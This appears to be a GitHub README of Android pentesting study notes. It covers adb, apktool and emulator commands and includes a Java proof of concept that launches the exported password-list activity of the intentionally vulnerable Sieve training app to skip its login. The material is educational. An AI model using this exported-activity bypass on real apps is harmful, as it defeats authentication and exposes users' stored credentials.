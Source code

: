 ### STUFFS TAUGHT:
  - Abusing exported(explicit) and implicit(intents) activities

### GENERAL COMMANDS:
  - show running ports in linux: `netstat -tulpen`
  - unzip .apk file: `unzip <file.apk>`
  - telnetting into AVD(one created with android studio):
    - `telnet 127.0.0.1:5554`
    - `auth <auth token excluding the % delimiter (location will be printed)>`
    - `help [command]`

### ADB COMMANDS:
  - print available devices: `adb devices`
  - ways to connect to an android device with adb:
    - `adb shell` 
    - `adb -s <serial number from "adb devices" command>`
    - `adb connect <ip address>`
  - port forwarding: `adb forward tcp:<src_pc_port> tcp:<dest_android_port>`
  - port reversing: `adb reverse tcp:<src_android_port> tcp:<dest_pc_port>`
  - push a file: `adb [-s <device_name>] push <file> /sdcard/ | <dest>`
  - kill adb server: `adb kill-server`
  - install apk: `adb install <filename.apk>`
  - pull a file: `adb pull <file> <dest>`
  - print logcat: `adb logcat`

### ADB SHELL COMMANDS (commands to be executed inside the android device's shell):
  - list apks installed: `pm list packages`
  - print path of an android package installed: `pm path <packagename>`
  - input text to device: `input text <your_text>`
  - start an activity: `am start-activity -n <package_name>/<activity_name>`
    - Example: `am start-activity -n com.mwr.example.sieve/.FileSelectorActivity`
    - **NOTE**:
      - `<package_name>` & `<activity_name>` can be found inside the decompiled **AndroidManifest.xml** file obtained using **apktool**.
      - This is possible only if activity is exported(explicit) or if an intent(implicit) is encapsulated
      - A formal way to trigger this activity is to create an app and start it as follows:
        > ```java
        > // following code is also present at .\pocs\sieve\SieveLoginBypass
        > // "empty activity" template selected in android studio
        > package com.hacking.sieveloginbypass;
        > import androidx.appcompat.app.AppCompatActivity;
        > 
        > import android.content.ComponentName;
        > import android.content.Intent;
        > import android.os.Bundle;
        > 
        > public class MainActivity extends AppCompatActivity {
        > 
        >  @Override
        >  protected void onCreate(Bundle savedInstanceState) {
        >    super.onCreate(savedInstanceState);
        >    setContentView(R.layout.activity_main);
        > 
        >    // code - to start the following Activity
        >    // com.mwr.example.sieve / .PWList
        >    Intent intent = new Intent();
        >    //intent.setComponent(new ComponentName("<package_name>","<package_name>.<class_name who's exported/intent encapsulated>"));
        >    intent.setComponent(new ComponentName("com.mwr.example.sieve","com.mwr.example.sieve.PWList"));
        >    startActivity(intent);
        >  }
        > }
        > ```

### APKTOOL COMMANDS:
  - decompile apk using apktool: `apktool d <filename.apk>`
  - build apk using apktool: `apktool b <folder_path>/`

### MISC NOTES:
  - **ADB SHELL COMMANDS**:
    - location of start folder in android devices(non rooted): `/sdcard/`
    - location of Android/data folder (non rooted); `/sdcard/Android/data` 
    - location of Android/data folder (rooted); `/storage/emulator/0/Android/data` 
  - **ADB COMMANDS**:
    - hidden folder in linux: `/home/$(whoami)/.android/`
  - cryptography key verification: pub key in `/home/$(whoami)/.android/adbkey.pub` present in pc and pub key in `/data/misc/adb/adb_keys` present in android device(readable only if rooted) must be equal
